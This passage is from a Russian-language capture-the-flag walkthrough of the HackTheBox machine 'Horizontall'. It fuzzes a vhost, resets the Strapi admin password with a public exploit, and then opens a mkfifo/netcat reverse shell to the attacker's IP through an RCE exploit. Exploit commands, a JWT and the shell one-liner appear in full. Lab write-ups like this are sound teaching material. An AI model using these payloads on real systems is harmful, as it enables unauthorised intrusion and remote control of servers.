 Теперь давайте фаззинг API-продукта VHOST.

```
[kali@kali ~]$ ffuf -w ~/wordlist/directories.txt -u http://horizontall.htb/FUZZ -v -t 200
...
[Status: 200, Size: 854, Words: 98, Lines: 17]
| URL | http://api-prod.horizontall.htb/admin
    * FUZZ: admin
```

## Анализ уязвимости

Если мы проверим страницу, мы обнаружим страницу входа в Strapi и выполним поиск уязвимостей Strapi в интернете, которые мы нашли [https://www.exploit-db.com/exploits/50239](https://www.exploit-db.com/exploits/50239) , поэтому давайте запустим ее. (вы можете проверить версию Strapi в [http://api-prod.horizontall.htb/admin/init](http://api-prod.horizontall.htb/admin/init) )

```
[kali@kali ~]$python3 50239.py http://api-prod.horizontall.htb
[+] Checking Strapi CMS Version running
[+] Seems like the exploit will work!!!
[+] Executing exploit


[+] Password reset was successfully
[+] Your email is: admin@horizontall.htb
[+] Your new credentials are: admin:SuperStrongPassword1
[+] Your authenticated JSON Web Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjQxNzQwODgwLCJleHAiOjE2NDQzMzI4ODB9.luB-yz5Zzm5mWVVSJBL34oBFohrjjTdSqtRV7m9hvvY
```

В поисках этого эксплойта я нашел еще один, для которого требуется токен JWT, поэтому давайте попробуем создать с его помощью обратную оболочку [https://www.exploit-db.com/exploits/50238](https://www.exploit-db.com/exploits/50238)

## Получение доступа к системе

```
[kali@kali ~]$ nc -lnvvvp 5555
...
[kali@kali ~]$ python3 50238.py http://api-prod.horizontall.htb eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjQxNTg2NjM5LCJleHAiOjE2NDQxNzg2Mzl9.ZUJptHdyrooFivW8npIG_JVsBKGrimccmY6QC14mGv4 "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.243 5555 >/tmp/f" 10.10.14.243

[+] Successful operation!!!
```

Давайте тогда получим флаг пользователя

```
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
strapi@horizontall:~/myapi$ cat home/developer/user.txt
```
